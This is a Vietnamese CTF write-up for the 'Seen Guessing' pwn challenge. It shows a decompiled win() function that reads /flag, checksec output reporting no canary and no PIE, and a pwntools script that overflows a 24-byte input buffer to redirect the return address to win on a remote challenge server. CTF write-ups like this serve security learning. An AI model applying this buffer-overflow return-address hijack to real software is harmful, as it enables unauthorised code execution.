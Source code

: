 **Win** function

```c
void __cdecl win()
{
  char buf[268]; // [rsp+0h] [rbp-110h] BYREF
  int fd; // [rsp+10Ch] [rbp-4h]

  fd = open("/flag", 0);
  buf[(int)read(fd, buf, 0x100uLL)] = 0;
  puts(buf);
}
```

### Exploit

Kiểm tra các cơ chế của chương trình

```bash
┌──(kali㉿ANONYMOUS)-[/mnt/d/Security/ctf-storage/2025/Nowruz 1404/pwn/Seen Guessing]
└─$ checksec chall
[*] '/mnt/d/Security/ctf-storage/2025/Nowruz 1404/pwn/Seen Guessing/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```

Qua đây và kết hợp với phân tích source code, mình nhận thấy chương trình có hàm **win** + **PIE tắt** + **Canary tắt** + Người dùng có thể nhập tới 100 bytes cho biến **input[24]**

=> Overwrite Return Address to Win function => Get flag

Lúc này, chỉ cần ghi đè địa chỉ ret 1 lần sau đó đoán đúng hết tất cả các câu đố để chương trình thoát ra khỏi vòng **while** để ret => Trở về địa chỉ hàm **Win** => PWN

**Code exploit**

```python
from pwn import *

# p = process("./chall")
p = remote("164.92.176.247", 5002)
elf = ELF("./chall", checksec=False)
padding = 40

ans = ['Sonbol', 'Sabzeh', 'Seer', 'Seeb', 'Senjed', 'Samanu', 'Serkeh']

payload = b"A" * padding + p64(elf.sym.win)

p.sendlineafter(b"Seen: ", payload)
for i in ans:
    p.sendlineafter(b"Seen: ", i.encode())
    
p.interactive()
```
